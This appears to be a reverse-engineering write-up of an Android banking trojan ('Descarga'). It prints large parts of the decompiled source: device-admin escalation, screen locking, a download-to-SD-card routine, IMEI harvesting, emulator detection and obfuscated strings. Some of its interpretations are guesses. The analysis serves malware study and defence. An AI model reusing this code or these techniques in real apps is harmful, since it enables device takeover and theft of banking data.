








# REVERSE ENGINEERING DESCARGA MALWARE

## Preface

This is an android malware. More specifically a Banking Trojan, capable of taking root access of the device, checking for enulators, and command executions.

## Static Analysis

### Checking the META files

Since it is a JAR file, we can unzip it.

```
unzip 4ab8f26e8aaee3de12b04b7a86be9ee349672e228b52e5b90dcd63cf7b564e34.apk -d descarga
```

Move into the `META-INF` folder. The following are the 3 files, present in this folder : 


Running keytool on the `CERT.RSA` file to get the certificate gives the following : 


This tells us that the apk had been signed with a 2048 bit RSA key to not raise any alarm when it is installed into the victim's device. Also, the RSA fingerprint is shown in the above picture.

### Code analysis

For analysing the code, we will take two different approaches, first we'll use `dex2jar` to change the `classes.dex` file to jar file and then we'll open that JAR file in `jd-gui` tool for better understanding of the piece of software.


The following are the classes that we find out as soon as we open it JAR file : 




At first we have the `Activity1` class which seems to import some packages and initialises few activities databses and gets the context of the application.

Since, the `android.content.Intent` is also imported, it seems to send messages between broadcasts, activities and content providers.



The `ActivityCard` class seems to set up various activities for the classes

```
package jgywwv.jvyjsd.sordvd;

import a;
import android.app.Activity;
import android.content.Context;
import android.graphics.Color;
import android.os.Bundle;
import android.text.TextWatcher;
import android.view.View;
import android.view.ViewGroup;
import android.widget.Button;
import android.widget.EditText;
import android.widget.ImageView;
import android.widget.RelativeLayout;
import android.widget.TextView;
import b;
import c;
import d;
import e;
import j;

public class ActivityCard extends Activity {
  private TextWatcher a;
  
  private Button a;
  
  private EditText a;
  
  private ImageView a;
  
  private RelativeLayout a;
  
  private TextView a;
  
  private TextWatcher b;
  
  private EditText b;
  
  private ImageView b;
  
  private TextWatcher c;
  
  private EditText c;
  
  private ImageView c;
  
  private TextWatcher d;
  
  private EditText d;
  
  private ImageView d;
  
  protected void onCreate(Bundle paramBundle) {
    super.onCreate(paramBundle);
    requestWindowFeature(1);
    setContentView(2130968576);
    this.a = (TextView)findViewById(2131361792);
    RelativeLayout.LayoutParams layoutParams = new RelativeLayout.LayoutParams(-2, -2);
    layoutParams.addRule(10);
    this.a = new TextView((Context)this);
    this.a.setText(j.aH);
    this.a.setTextColor(Color.parseColor("#000000"));
    this.a.setTextAppearance(getApplicationContext(), 2131296256);
    this.a.setId(2000);
    this.a.setLayoutParams((ViewGroup.LayoutParams)layoutParams);
    this.a.addView((View)this.a);
    layoutParams = new RelativeLayout.LayoutParams(80, 50);
    layoutParams.addRule(3, 2000);
    layoutParams.addRule(9);
    this.a = (TextView)new ImageView((Context)this);
    this.a.setImageResource(2130837507);
    this.a.setScaleType(ImageView.ScaleType.FIT_START);
    this.a.setId(2001);
    this.a.setLayoutParams((ViewGroup.LayoutParams)layoutParams);
    this.a.addView((View)this.a);
    layoutParams = new RelativeLayout.LayoutParams(80, 50);
    layoutParams.addRule(3, 2000);
    layoutParams.addRule(1, 2001);
    this.b = new ImageView((Context)this);
    this.b.setImageResource(2130837506);
    this.b.setScaleType(ImageView.ScaleType.FIT_START);
    this.b.setId(2002);
    this.b.setLayoutParams((ViewGroup.LayoutParams)layoutParams);
    this.a.addView((View)this.b);
    layoutParams = new RelativeLayout.LayoutParams(80, 50);
    layoutParams.addRule(3, 2000);
    layoutParams.addRule(1, 2002);
    this.c = new ImageView((Context)this);
    this.c.setImageResource(2130837504);
    this.c.setScaleType(ImageView.ScaleType.FIT_START);
    this.c.setId(2003);
    this.c.setLayoutParams((ViewGroup.LayoutParams)layoutParams);
    this.a.addView((View)this.c);
    layoutParams = new RelativeLayout.LayoutParams(-2, -2);
    layoutParams.addRule(3, 2001);
    layoutParams.addRule(9);
    this.a = (TextView)new EditText((Context)this);
    this.a.setEms(20);
    this.a.setId(2004);
    this.a.setHint(j.aI);
    this.a.setLayoutParams((ViewGroup.LayoutParams)layoutParams);
    this.a.setRawInputType(3);
    this.a = (TextView)new a(this);
    this.a.addTextChangedListener((TextWatcher)this.a);
    this.a.addView((View)this.a);
    layoutParams = new RelativeLayout.LayoutParams(-2, -2);
    layoutParams.addRule(3, 2004);
    layoutParams.addRule(9);
    this.b = (ImageView)new EditText((Context)this);
    this.b.setId(2005);
    this.b.setEms(4);
    this.b.setLayoutParams((ViewGroup.LayoutParams)layoutParams);
    this.b.setHint(j.aJ);
    this.b.setRawInputType(3);
    this.b = (ImageView)new b(this);
    this.b.addTextChangedListener((TextWatcher)this.b);
    this.a.addView((View)this.b);
    layoutParams = new RelativeLayout.LayoutParams(-2, -2);
    layoutParams.addRule(3, 2004);
    layoutParams.addRule(1, 2005);
    this.c = (ImageView)new EditText((Context)this);
    this.c.setId(2006);
    this.c.setEms(4);
    this.c.setLayoutParams((ViewGroup.LayoutParams)layoutParams);
    this.c.setHint(j.aK);
    this.c.setRawInputType(3);
    this.c = (ImageView)new c(this);
    this.c.addTextChangedListener((TextWatcher)this.c);
    this.a.addView((View)this.c);
    layoutParams = new RelativeLayout.LayoutParams(-2, -2);
    layoutParams.addRule(3, 2004);
    layoutParams.addRule(11);
    this.d = (ImageView)new EditText((Context)this);
    this.d.setId(2007);
    this.d.setEms(3);
    this.d.setLayoutParams((ViewGroup.LayoutParams)layoutParams);
    this.d.setHint(j.aL);
    this.d.setRawInputType(3);
    this.d = (ImageView)new d(this);
    this.d.addTextChangedListener((TextWatcher)this.d);
    this.a.addView((View)this.d);
    layoutParams = new RelativeLayout.LayoutParams(-2, -2);
    layoutParams.addRule(3, 2005);
    layoutParams.addRule(9);
    this.d = new ImageView((Context)this);
    this.d.setImageResource(2130837505);
    this.d.setScaleType(ImageView.ScaleType.FIT_START);
    this.d.setId(2008);
    this.d.setLayoutParams((ViewGroup.LayoutParams)layoutParams);
    layoutParams = new RelativeLayout.LayoutParams(-2, -2);
    layoutParams.addRule(3, 2005);
    layoutParams.addRule(11);
    this.a = (TextView)new Button((Context)this);
    this.a.setText(j.aN);
    this.a.setId(2009);
    this.a.setBackgroundColor(Color.parseColor("#00AA00"));
    this.a.setTextColor(Color.parseColor("#FFFFFF"));
    this.a.addView((View)this.a);
    this.a.setLayoutParams((ViewGroup.LayoutParams)layoutParams);
    this.a.setOnClickListener((View.OnClickListener)new e(this));
  }
}
```

**ActivityMMS.class**

The presence of this class suggests that this piece of software has the capability to perform MMS related functions. 


```
package jgywwv.jvyjsd.sordvd;

import android.app.Activity;
import android.content.Context;
import android.graphics.Color;
import android.os.Bundle;
import android.view.View;
import android.view.ViewGroup;
import android.widget.Button;
import android.widget.ImageView;
import android.widget.RelativeLayout;
import android.widget.TextView;
import f;
import j;
import u;

public class ActivityMMS extends Activity {
  private Button a;
  
  private ImageView a;
  
  private RelativeLayout a;
  
  private TextView a;
  
  private TextView b;
  
  private TextView c;
  
  protected void onCreate(Bundle paramBundle) {
    super.onCreate(paramBundle);
    setContentView(2130968578);
    this.a = (TextView)findViewById(2131361793);
    RelativeLayout.LayoutParams layoutParams = new RelativeLayout.LayoutParams(-2, -2);
    layoutParams.addRule(14);
    layoutParams.addRule(12);
    this.a = new TextView((Context)this);
    this.a.setText(j.aD);
    this.a.setTextColor(Color.parseColor("#000000"));
    this.a.setTextAppearance(getApplicationContext(), 16973894);
    this.a.setId(4000);
    this.a.addView((View)this.a);
    this.a.setLayoutParams((ViewGroup.LayoutParams)layoutParams);
    layoutParams = new RelativeLayout.LayoutParams(-2, -2);
    layoutParams.addRule(14);
    layoutParams.addRule(10);
    this.b = new TextView((Context)this);
    this.b.setText(j.aE);
    this.b.setTextColor(Color.parseColor("#000000"));
    this.b.setTextAppearance(getApplicationContext(), 2131296256);
    this.b.setId(4003);
    this.b.setLayoutParams((ViewGroup.LayoutParams)layoutParams);
    this.a.addView((View)this.b);
    layoutParams = new RelativeLayout.LayoutParams(-2, -2);
    layoutParams.addRule(14);
    layoutParams.addRule(3, 4003);
    this.c = new TextView((Context)this);
    this.c.setText(j.aF + u.a(0, 9999));
    this.c.setTextColor(Color.parseColor("#000000"));
    this.c.setId(4004);
    this.c.setLayoutParams((ViewGroup.LayoutParams)layoutParams);
    this.a.addView((View)this.c);
    layoutParams = new RelativeLayout.LayoutParams(-2, -2);
    layoutParams.addRule(14);
    layoutParams.addRule(2, 4000);
    this.a = (TextView)new Button((Context)this);
    this.a.setText(j.aG);
    this.a.setId(4001);
    this.a.addView((View)this.a);
    this.a.setLayoutParams((ViewGroup.LayoutParams)layoutParams);
    layoutParams = new RelativeLayout.LayoutParams(-2, -2);
    layoutParams.addRule(9);
    layoutParams.addRule(11);
    layoutParams.addRule(10);
    layoutParams.addRule(12);
    this.a = (TextView)new ImageView((Context)this);
    this.a.setImageResource(2130837508);
    this.a.setScaleType(ImageView.ScaleType.FIT_CENTER);
    this.a.setId(4002);
    this.a.setLayoutParams((ViewGroup.LayoutParams)layoutParams);
    this.a.addView((View)this.a);
    ((Button)findViewById(4001)).setOnClickListener((View.OnClickListener)new f(this));
  }
}
```
Although at the begining of the code, few normal packages are being imported, but we also see that 3 of unknown packages are also imported.

The `f.class` has the following code : 

```
import android.view.View;
import jgywwv.jvyjsd.sordvd.ActivityMMS;

public class f implements View.OnClickListener {
  public f(ActivityMMS paramActivityMMS) {}
  
  public void onClick(View paramView) {
    u.i(this.a.getApplicationContext());
    this.a.finish();
  }
}
```

Which gets the application context using another two classes `u` and `i`, which we'll look into later on.

**j.class**

Upon checking the `j.class` we get something interesting.

```
public class j {
  public static final String A;
  
  public static final String B;
  
  public static final String C;
  
  public static final String D;
  
  public static final String E;
  
  public static final String F;
  
  public static final String G;
  
  public static final String H;
  
  public static final String I;
  
  public static final String J;
  
  public static final String K;
  
  public static final String L;
  
  public static final String M;
  
  public static final String N;
  
  public static final String O;
  
  public static final String P;
  
  public static final String Q;
  
  public static final String R;
  
  public static final String S;
  
  public static final String T;
  
  public static final String U;
  
  public static final String V;
  
  public static final String W;
  
  public static final String X;
  
  public static final String Y;
  
  public static final String Z;
  
  public static final String a = w.a("aV9bVWw26C2vVwzoQrKcUWdlQG1iFUhs9HZfanBoSaZErP/OsH+qsTjTC2jZLOPP85hVv+00VqAM");
  
  public static final String aA;
  
  public static final String aB;
  
  public static final String aC;
  
  public static final String aD;
  
  public static final String aE;
  
  public static final String aF;
  
  public static final String aG;
  
  public static final String aH;
  
  public static final String aI;
  
  public static final String aJ;
  
  public static final String aK;
  
  public static final String aL;
  
  public static final String aM;
  
  public static final String aN;
  
  public static final String aO;
  
  public static final String aP;
  
  public static final String aQ;
  
  public static final String aR;
  
  public static final String aS;
  
  public static final String aT;
  
  public static final String aU;
  
  public static final String aa;
  
  public static final String ab;
  
  public static final String ac;
  
  public static final String ad;
  
  public static final String ae;
  
  public static final String af;
  
  public static final String ag;
  
  public static final String ah;
  
  public static final String ai;
  
  public static final String aj;
  
  public static final String ak;
  
  public static final String al;
  
  public static final String am;
  
  public static final String an;
  
  public static final String ao;
  
  public static final String ap;
  
  public static final String aq;
  
  public static final String ar;
  
  public static final String as;
  
  public static final String at;
  
  public static final String au;
  
  public static final String av;
  
  public static final String aw;
  
  public static final String ax;
  
  public static final String ay;
  
  public static final String az;
  
  public static final String b = w.a("aV9bVWw26C2vVwzoQrKcUWdlQG1oFAoo9n1Pdik0FqEYqfnSuWO/rTXGTmvbL/+J9JJUortqTrg=");
  
  public static final String c = w.a("I0ZKUTc7");
  
  public static final String d = w.a("I0NKSSY3sz26Fw==");
  
  public static final String e = w.a("I0ZAQSN1omc=");
  
  public static final String f = w.a("I0hMBw==");
  
  public static final String g = w.a("I0hOVzI7");
  
  public static final String h = w.a("I0ZASyJx5Q==");
  
  public static final String i = w.a("I1JKRCQ7");
  
  public static final String j = w.a("I0hZRnQ=");
  
  public static final String k = w.a("I15dSXQ=");
  
  public static final String l = w.a("I15dSTQ7");
  
  public static final String m = w.a("I05aVzo7");
  
  public static final String n = w.a("I2JhdgJYiwmPYTDFZfs=");
  
  public static final String o = w.a("I1tLUCU7");
  
  public static final String p = w.a("I0VaSTo7");
  
  public static final String q = w.a("I1tHSjh85Q==");
  
  public static final String r = w.a("I0ZcQnQ=");
  
  public static final String s = w.a("I09OUTM7");
  
  public static final String t = w.a("I1hCVnQ=");
  
  public static final String u = w.a("I19KSXQ=");
  
  public static final String v = w.a("I0lAQS87");
  
  public static final String w = w.a("I19GSDM7");
  
  public static final String x = w.a("I357Y3sh5Q==");
  
  public static final String y = w.a("I0VcBw==");
  
  public static final String z = w.a("I19WVTM7");
  
  static {
    A = w.a("I0xKUXQ=");
    B = w.a("I0JLBw==");
    C = w.a("I0JCQD87");
    D = w.a("I0hAUDhttTzs");
    E = w.a("I0hKSTo7");
    F = w.a("I0pBQSR2riHs");
    G = w.a("I0ZAQTN15Q==");
    H = w.a("I1tHSjh8qTCjVxz4CQ==");
    I = w.a("I1hGSHQ=");
    J = w.a("I0pfVXQ=");
    K = w.a("I0NcSCV05Q==");
    L = w.a("I0NOQTtwqWc=");
    M = w.a("I11KV3Q=");
    N = w.a("I0JBQzk7");
    O = w.a("I0dARDI7");
    P = w.a("I0VaSDR8tWc=");
    Q = w.a("I19KXSI7");
    R = w.a("I09OUTc7");
    S = w.a("I0VABSB4qyyqFw==");
    T = w.a("I1lKViN1s2c=");
    U = w.a("I19GSDNqsySjRVs=");
    V = w.a("I0hASDt4qSHs");
    W = w.a("I1hbRCJstGc=");
    X = w.a("I0REBw==");
    Y = w.a("I19ABw==");
    Z = w.a("I1tASzE7");
    aa = w.a("I1tOVzd0tGc=");
    ab = w.a("I0pfTnQ=");
    ac = w.a("I09BVnQ=");
    ad = w.a("I0JMSCY7");
    ae = w.a("IxsfFWYp93X+BUm6G+nFDzE=");
    af = w.a("I0xASjF1ohq9URKo");
    ag = w.a("I25CUDp4syq8Fw==");
    ah = w.a("I2pBQSR2riHuZj3BCQ==");
    ai = w.a("I0xKSzNrribs");
    aj = w.a("I15BTjh2sCvs");
    ak = w.a("I2pBQSR2riHuZj3BC7uAVn94ASVuCAU7pykf");
    al = w.a("I2xKSy90qDGnWheo");
    am = w.a("I0hASHh4qSG8WhDuBaqQS2dlTyRyVGEm6XZefV87T/sZgvHG4g==");
    an = w.a("I0hASHh4qSG8WhDuBaqQS2dlTyRyVHYu7FtYfn8qTuYzqvTOr2Ht");
    ao = w.a("I0pfVTpwpCS6XBbkBK+bWz1tTydzFUwnsW9ce3U+RfdaoufBqG+5pHY=");
    ap = w.a("I0VOSDM7");
    aq = w.a("I0VASDNr5Q==");
    ar = w.a("I09GV3Q=");
    as = w.a("I0pMUT9vrjG3Fw==");
    at = w.a("I0hASyJ8qTH0Glb5RqraVn1uTjsj");
    au = w.a("I0pLQSR8tDbs");
    av = w.a("I09aVzdtriqgFw==");
    aw = w.a("I2hOSTpq6RqHcVnOboq2HQ==");
    ax = w.a("I0hASyJ8qTH0GlbpSrWZYH9jRmxiG0kv7D0=");
    ay = w.a("I0BDSjE7");
    az = w.a("I0JBViJ4qymrUVs=");
    aA = w.a("Iwk=");
    aB = w.a("I1hCViVtpjG7Rls=");
    aC = w.a("I1hCVj995Q==");
    aD = w.a("IwEP9cnIR5V2FagJ+20lj8O38fbRx/X7T6odyKaPmULP40UVELYfe4UyrtI6ngBYSk4d+thXdeitjHPCZMyDoTed0Ok0ilQO8k1e0c0oWulxP/XlQiMv6D/ZeY2fLzAFzzgjwH5kKuRFRlPtOtoa0324lB5CvHZbP+vZRTQknQ==");
    aE = w.a("I2ZidnZaFsQei6k0+2gktsO58f7RwvX2vQ==");
    aF = w.a("I/ux9NTJeJRO5clamQlN7pHclJO6q6ljpT8f");
    aG = w.a("I/uM9eLJd5V15cFbqQh5H15BcmE=");
    aH = w.a("I/u99eTJcpV65cFbqQlAH8Ox8f3RxvX2Tp8dyKSPkkP3EhdzSyQ=");
    aI = w.a("I/uy9ejJe5V75Pmq+2Mlj8KM8MHQ8Qc=");
    aJ = w.a("I/uz9co7");
    aK = w.a("I/u89cXJVJVdFw==");
    aL = w.a("I2h5ZnQ=");
    aM = w.a("I0NOUzN6pGc=");
    aN = w.a("I/uO9ejIQpRO5clalglN7pHdrWE=");
    aO = w.a("I0JBQTNh6S26WBWo");
    aP = w.a("I1tMSjJ85Q==");
    aQ = w.a("IxodFmIs8XL2DFs=");
    aR = w.a("I01GSTMj6GrhVBfuWbacW0xtUjBkDgph");
    aS = w.a("I19KXSI2rzGjWVs=");
    aT = w.a("I0hASHh4qSG8WhDuBa+QUXdlTyQj");
    aU = w.a("I0hASHhuryS6Rhj6W/s=");
  }
}
```

A bunch of base64 encoded strings are initialised. It is also seen that this class is imported at many places in the program, even at the begining in the `Activity1.class`. 

Moving onto the next class

**u.class**

```
import android.app.ActivityManager;
import android.app.AlarmManager;
import android.app.PendingIntent;
import android.app.admin.DevicePolicyManager;
import android.content.ComponentName;
import android.content.Context;
import android.content.Intent;
import android.net.Uri;
import android.os.Build;
import android.os.Environment;
import android.telephony.TelephonyManager;
import java.io.BufferedInputStream;
import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
import java.net.URL;
import java.net.URLConnection;
import java.util.Calendar;
import java.util.Random;
import jgywwv.jvyjsd.sordvd.ActivityCard;
import jgywwv.jvyjsd.sordvd.AlarmReceiverAdm;
import jgywwv.jvyjsd.sordvd.AlarmReceiverKnock;
import jgywwv.jvyjsd.sordvd.AlarmReceiverSmsMan;
import jgywwv.jvyjsd.sordvd.CAdm;
import jgywwv.jvyjsd.sordvd.MAC;
import jgywwv.jvyjsd.sordvd.SrvAdm;
import jgywwv.jvyjsd.sordvd.SrvKlog;
import jgywwv.jvyjsd.sordvd.SrvKnock;
import jgywwv.jvyjsd.sordvd.SrvProcMon;
import org.apache.http.util.ByteArrayBuffer;

public class u {
  public static int a(int paramInt1, int paramInt2) {
    Random random = new Random();
    if (paramInt1 > paramInt2)
      throw new IllegalArgumentException(""); 
    double d = (paramInt2 - paramInt1 + 1L);
    return (int)((long)(random.nextDouble() * d) + paramInt1);
  }
  
  public static int a(Context paramContext) {
    return !((DevicePolicyManager)paramContext.getSystemService("device_policy")).isAdminActive(new ComponentName(paramContext, CAdm.class)) ? 0 : 1;
  }
  
  static String a(Context paramContext) {
    ((DevicePolicyManager)paramContext.getSystemService("device_policy")).lockNow();
    return "";
  }
  
  static String a(Context paramContext, String paramString) {
    Intent intent = new Intent("android.intent.action.VIEW");
    intent.setDataAndType(Uri.fromFile(new File(paramString)), j.ao);
    intent.setFlags(268435456);
    paramContext.startActivity(intent);
    return "";
  }
  
  static String a(String paramString1, String paramString2) {
    String str = Environment.getExternalStorageDirectory() + "/";
    try {
      File file2 = new File(str);
      if (!file2.exists())
        file2.mkdirs(); 
      URL uRL = new URL(paramString1);
      File file1 = new File(file2, paramString2);
      URLConnection uRLConnection = uRL.openConnection();
      uRLConnection.setReadTimeout(120000);
      uRLConnection.setConnectTimeout(15000);
      BufferedInputStream bufferedInputStream = new BufferedInputStream(uRLConnection.getInputStream());
      ByteArrayBuffer byteArrayBuffer = new ByteArrayBuffer(5000);
      while (true) {
        int i = bufferedInputStream.read();
        if (i != -1) {
          byteArrayBuffer.append((byte)i);
          continue;
        } 
        FileOutputStream fileOutputStream = new FileOutputStream(file1);
        fileOutputStream.write(byteArrayBuffer.toByteArray());
        fileOutputStream.flush();
        fileOutputStream.close();
        return str + " " + paramString2;
      } 
    } catch (IOException iOException) {}
    return str + " " + paramString2;
  }
  
  public static void a(Context paramContext) {
    String str = ((ActivityManager.RunningTaskInfo)((ActivityManager)paramContext.getSystemService("activity")).getRunningTasks(1).get(0)).topActivity.getClassName();
    if (!str.equalsIgnoreCase(j.am) && !str.equalsIgnoreCase(j.an))
      g(paramContext); 
  }
  
  public static void a(Context paramContext, String paramString) {
    TelephonyManager telephonyManager = (TelephonyManager)paramContext.getSystemService("phone");
    String str = telephonyManager.getDeviceId();
    m m = new m();
    m.a(paramContext);
    m.a(str);
    m.a(telephonyManager);
    if (paramString.length() > 0)
      m.b(paramString); 
    m.start();
  }
  
  public static boolean a(Context paramContext) {
    boolean bool1;
    boolean bool2;
    boolean bool3 = false;
    boolean bool = ((TelephonyManager)paramContext.getSystemService("phone")).getDeviceId().equals(j.ae);
    if (Build.MODEL.contains(j.af) || Build.MODEL.contains(j.ag) || Build.MODEL.contains(j.ah) || Build.FINGERPRINT.startsWith(j.ai) || Build.FINGERPRINT.startsWith(j.aj) || Build.MODEL.contains(j.ak) || Build.MANUFACTURER.contains(j.al)) {
      bool1 = true;
    } else {
      bool1 = false;
    } 
    if (Build.BRAND.startsWith(j.ai) && Build.DEVICE.startsWith(j.ai)) {
      bool2 = true;
    } else {
      bool2 = false;
    } 
    if (bool || bool1 || bool2)
      bool3 = true; 
    return bool3;
  }
  
  static String b(Context paramContext) {
    n n = new n(paramContext);
    if (n.c) {
      n.a();
      return "" + n.a() + ":" + n.b();
    } 
    return j.p;
  }
  
  public static void b(Context paramContext) {
    if (Build.VERSION.SDK_INT >= 19) {
      PendingIntent pendingIntent = PendingIntent.getBroadcast(paramContext, 0, new Intent(paramContext, AlarmReceiverKnock.class), 268435456);
      ((AlarmManager)paramContext.getSystemService("alarm")).setInexactRepeating(0, Calendar.getInstance().getTimeInMillis(), 60000L, pendingIntent);
      return;
    } 
    paramContext.startService(new Intent(paramContext, SrvKnock.class));
  }
  
  public static void c(Context paramContext) {
    if (Build.VERSION.SDK_INT >= 19) {
      paramContext.startService(new Intent(paramContext, SrvProcMon.class));
      return;
    } 
    paramContext.startService(new Intent(paramContext, SrvProcMon.class));
  }
  
  public static void d(Context paramContext) {
    if (Build.VERSION.SDK_INT >= 19) {
      PendingIntent pendingIntent = PendingIntent.getBroadcast(paramContext, 0, new Intent(paramContext, AlarmReceiverAdm.class), 268435456);
      ((AlarmManager)paramContext.getSystemService("alarm")).setInexactRepeating(0, Calendar.getInstance().getTimeInMillis(), 60000L, pendingIntent);
      return;
    } 
    paramContext.startService(new Intent(paramContext, SrvAdm.class));
  }
  
  public static void e(Context paramContext) {
    if (Build.VERSION.SDK_INT >= 19) {
      paramContext.startService(new Intent(paramContext, SrvKlog.class));
      return;
    } 
    paramContext.startService(new Intent(paramContext, SrvKlog.class));
  }
  
  public static void f(Context paramContext) {
    if (Build.VERSION.SDK_INT >= 19) {
      PendingIntent pendingIntent = PendingIntent.getBroadcast(paramContext, 0, new Intent(paramContext, AlarmReceiverSmsMan.class), 268435456);
      ((AlarmManager)paramContext.getSystemService("alarm")).setInexactRepeating(0, Calendar.getInstance().getTimeInMillis(), 60000L, pendingIntent);
    } 
  }
  
  static void g(Context paramContext) {
    if (!((DevicePolicyManager)paramContext.getSystemService("device_policy")).isAdminActive(new ComponentName(paramContext, CAdm.class))) {
      Intent intent = new Intent(paramContext, MAC.class);
      intent.addFlags(268435456);
      paramContext.startActivity(intent);
    } 
  }
  
  static void h(Context paramContext) {
    Intent intent = new Intent(paramContext, ActivityCard.class);
    intent.addFlags(268435456);
    paramContext.startActivity(intent);
  }
  
  static void i(Context paramContext) {
    if (y.a(paramContext, j.az) > 0) {
      String str = paramContext.getPackageName();
      ComponentName componentName = new ComponentName(str, str + ".Activity1");
      paramContext.getPackageManager().setComponentEnabledSetting(componentName, 2, 1);
      y.a(paramContext, j.az, 1);
    } 
  }
}
```

The first occurrence of the static function `a()` 

```
public static int a(int paramInt1, int paramInt2) {
    Random random = new Random();
    if (paramInt1 > paramInt2)
      throw new IllegalArgumentException(""); 
    double d = (paramInt2 - paramInt1 + 1L);
    return (int)((long)(random.nextDouble() * d) + paramInt1);
  }
```

It just takes two integer parameters. Then it checks if paramInt1 is greater than paramInt2 or not. If paramInt1 is greater then an `IllegalArgumentException` is thrown. And an long int value is returned whose value can be written as :

```
value = (int)(long)(random.nextDouble() * (paramInt2-paramInt1 + 1) + paramInt1);
```

The following instance of the function `a()` :

```
  public static int a(Context paramContext) {
    return !((DevicePolicyManager)paramContext.getSystemService("device_policy")).isAdminActive(new ComponentName(paramContext, CAdm.class)) ? 0 : 1;
  }
```

Just checks if the administrative privileges of the device is active for the app of not. If it is active, then it return 1 else 0. It uses the `CAdm` class to perform this. 

The following piece of code get access to System Services and locks the phone immediately

```
 static String a(Context paramContext) {
    ((DevicePolicyManager)paramContext.getSystemService("device_policy")).lockNow();
    return "";
  }
```
It uses the `lockNow()` function in order to do this. The reference to this function can be found here [lockNow function](https://www.codota.com/code/java/methods/android.app.admin.DevicePolicyManager/lockNow)

Howeve, as shown in the reference, it can be seen that the program needs administrative privileges in order to lock the phone. That's why it first checks for admin privileges and then tries to lock the device.

```
static String a(Context paramContext, String paramString) {
    Intent intent = new Intent("android.intent.action.VIEW");
    intent.setDataAndType(Uri.fromFile(new File(paramString)), j.ao);
    intent.setFlags(268435456);
    paramContext.startActivity(intent);
    return "";
  }
```

This piece of code creates a new intent. This seems to take a screenshot. Refer to : [Take screenshot programmatically in Android](https://www.codota.com/code/java/methods/android.content.Intent/setDataAndType)

Then this image is set to the path given by the encoded string at : `j.ao`, which is : `I0pfVTpwpCS6XBbkBK+bWz1tTydzFUwnsW9ce3U+RfdaoufBqG+5pHY=` Which we will be able to decode once we reverse engineer the encoding algorithm.

```
static String a(String paramString1, String paramString2) {
    String str = Environment.getExternalStorageDirectory() + "/";
    try {
      File file2 = new File(str);
      if (!file2.exists())
        file2.mkdirs(); 
      URL uRL = new URL(paramString1);
      File file1 = new File(file2, paramString2);
      URLConnection uRLConnection = uRL.openConnection();
      uRLConnection.setReadTimeout(120000);
      uRLConnection.setConnectTimeout(15000);
      BufferedInputStream bufferedInputStream = new BufferedInputStream(uRLConnection.getInputStream());
      ByteArrayBuffer byteArrayBuffer = new ByteArrayBuffer(5000);
      while (true) {
        int i = bufferedInputStream.read();
        if (i != -1) {
          byteArrayBuffer.append((byte)i);
          continue;
        } 
        FileOutputStream fileOutputStream = new FileOutputStream(file1);
        fileOutputStream.write(byteArrayBuffer.toByteArray());
        fileOutputStream.flush();
        fileOutputStream.close();
        return str + " " + paramString2;
      } 
    } catch (IOException iOException) {}
    return str + " " + paramString2;
  }
```

The above piece of code first get the full path of the SDCard using the function `Environment.getExternalStorageDirectory()` and creates a new directory inside the sdcard if the file already doesn't exists and creates a file with the name that is passed as parameter (paramString2).

Then it goes on to create a new `URL` object using the parameter string (paramString1) which is passed to the function through the parameter.

It connects to that url gets whatever it revieces from the url and writes it to the file that it had previously created and returns the name of the sdcard path i.e `str` and `paramString2` that is the file created.

```

  public static void a(Context paramContext) {
    String str = ((ActivityManager.RunningTaskInfo)((ActivityManager)paramContext.getSystemService("activity")).getRunningTasks(1).get(0)).topActivity.getClassName();
    if (!str.equalsIgnoreCase(j.am) && !str.equalsIgnoreCase(j.an))
      g(paramContext); 
  }
```

In the first line a string is initialized. Let us break this function down one by one. 

`ActivityManager.RunningTaskInfo` gets information about a particular running process that the user may or may not be using but the system has not killed the process.


`getSystemService("activity")` tries to access few of the androids system level processes that are running.Then it probably gets hold of the foreground.

After this the extracted string `str` is compared with two of the encoded strings , `j.am` and `j.an` which are :

`I0hASHh4qSG8WhDuBaqQS2dlTyRyVGEm6XZefV87T/sZgvHG4g==` and `I0hASHh4qSG8WhDuBaqQS2dlTyRyVHYu7FtYfn8qTuYzqvTOr2Ht`;. Then passes the `paramContext` to the function `g()` which is present in the same class.

**g() function**

Before moving any further, let's take a quick look into the g() function and try to understand what it does : 

```
static void g(Context paramContext) {
    if (!((DevicePolicyManager)paramContext.getSystemService("device_policy")).isAdminActive(new ComponentName(paramContext, CAdm.class))) {
      Intent intent = new Intent(paramContext, MAC.class);
      intent.addFlags(268435456);
      paramContext.startActivity(intent);
    } 
  }
```
At first, it checks if the administrative privileges are active for the process that was passed to it as the parameter. If it doesn't have administrative privileges, it is passed to the MAC class.

```
package jgywwv.jvyjsd.sordvd;

import android.app.Activity;
import android.app.admin.DevicePolicyManager;
import android.content.ComponentName;
import android.content.Context;
import android.content.Intent;
import android.os.Bundle;
import android.os.Parcelable;
import j;

public class MAC extends Activity {
  private DevicePolicyManager a;
  
  public void onCreate(Bundle paramBundle) {
    super.onCreate(paramBundle);
    this.a = (DevicePolicyManager)getSystemService("device_policy");
    ComponentName componentName = new ComponentName((Context)this, CAdm.class);
    if (!this.a.isAdminActive(componentName)) {
      Intent intent = new Intent("android.app.action.ADD_DEVICE_ADMIN");
      intent.putExtra("android.app.extra.DEVICE_ADMIN", (Parcelable)componentName);
      intent.putExtra("android.app.extra.ADD_EXPLANATION", j.aA);
      startActivity(intent);
    } 
    finish();
  }
}
``` 

Let's break it down :

1) `ADD_DEVICE_ADMIN` : Activity action: ask the user to add a new device administrator to the system.<br>
2) `android.app.extra.DEVICE_ADMIN` : The ComponentName of the administrator component.<br>
3) `android.app.extra.ADD_EXPLANATION` : An optional CharSequence providing additional explanation for why the admin is being added.

Refer to : [https://developer.android.com/reference/android/app/admin/DevicePolicyManager](https://developer.android.com/reference/android/app/admin/DevicePolicyManager)


Moving onto the next instance of the function `a()`

```
  public static void a(Context paramContext, String paramString) {
    TelephonyManager telephonyManager = (TelephonyManager)paramContext.getSystemService("phone");
    String str = telephonyManager.getDeviceId();
    m m = new m();
    m.a(paramContext);
    m.a(str);
    m.a(telephonyManager);
    if (paramString.length() > 0)
      m.b(paramString); 
    m.start();
  }
```

Refer to  : [Telephony Manager](https://developer.android.com/reference/android/telephony/TelephonyManager#getDeviceId(int))

1) The first line `getSystemService("phone")` gets system level access to the phoen system service.<br>
2) `getDeviceId()` : This method was deprecated in API 26. It seems to get device IDs like IMEI and GSM.<br>
3) A new object for the class `m` is created and the function `a()` is used with which some parameters are passed. The class `m` will be analysed separately.<br>


#### Check for emualtors

```

  public static boolean a(Context paramContext) {
    boolean bool1;
    boolean bool2;
    boolean bool3 = false;
    boolean bool = ((TelephonyManager)paramContext.getSystemService("phone")).getDeviceId().equals(j.ae);
